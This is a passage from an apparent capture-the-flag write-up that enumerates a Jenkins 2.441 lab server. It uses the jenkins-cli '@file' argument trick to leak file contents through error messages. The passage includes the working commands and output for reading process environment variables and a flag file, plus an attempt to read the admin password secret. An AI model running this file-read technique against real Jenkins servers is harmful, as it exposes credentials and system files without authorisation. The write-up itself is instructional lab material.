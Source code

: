 All of the “19” results seem equally good.

### Enumeration

#### Home Directory

I’ll look at the running command to get a feel for what the environment looks like for Jenkins. The command line ( `/proc/self/cmdline`, cleaned up with spaces added) is:

```
java -Duser.home=/var/jenkins_home -Djenkins.model.Jenkins.slaveAgentPort=50000 -Dhudson.lifecycle=hudson.lifecycle.ExitLifecycle -jar /usr/share/jenkins/jenkins.war

```

The environment variables ( `/proc/self/environ`) are:

```
HOSTNAME=0f52c222a4cc
JENKINS_UC_EXPERIMENTAL=https://updates.jenkins.io/experimental
JAVA_HOME=/opt/java/openjdk
JENKINS_INCREMENTALS_REPO_MIRROR=https://repo.jenkins-ci.org/incrementals
COPY_REFERENCE_FILE_LOG=/var/jenkins_home/copy_reference_file.log
PWD=/
JENKINS_SLAVE_AGENT_PORT=50000
JENKINS_VERSION=2.441
HOME=/var/jenkins_home
LANG=C.UTF-8
JENKINS_UC=https://updates.jenkins.io
SHLVL=0
JENKINS_HOME=/var/jenkins_home
REF=/usr/share/jenkins/ref
PATH=/opt/java/openjdk/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin

```

I can actually read `user.txt` at this point from the jenkins user’s home directory:

```
oxdf@hacky$ java -jar jenkins-cli.jar -s 'http://10.10.11.10:8080' help '@/var/jenkins_home/user.txt' a

ERROR: Too many arguments: a
java -jar jenkins-cli.jar help [COMMAND]
Lists all the available commands or a detailed description of single command.
 COMMAND : Name of the command (default: ffcb78dc3a26226b97276f24e26fc272)

```

#### Passwords

Jenkins [stores](https://boozallen.github.io/sdp-docs/learning-labs/1/local-development/3-configure-jenkins.html) the initial password for the admin user at `/var/jenkins_home/secrets/initialAdminPassword`. Unfortunately, that returns “No such file”:

```
oxdf@hacky$ java -jar jenkins-cli.jar -s 'http://10.10.11.10:8080' help '@/var/jenkins_home/secrets/initialAdminPassword' a

ERROR: No such file: /var/jenkins_home/secrets/initialAdminPassword
java -jar jenkins-cli.jar help [COMMAND]
Lists all the available commands or a detailed description of single command.
 COMMAND : Name of the command

```
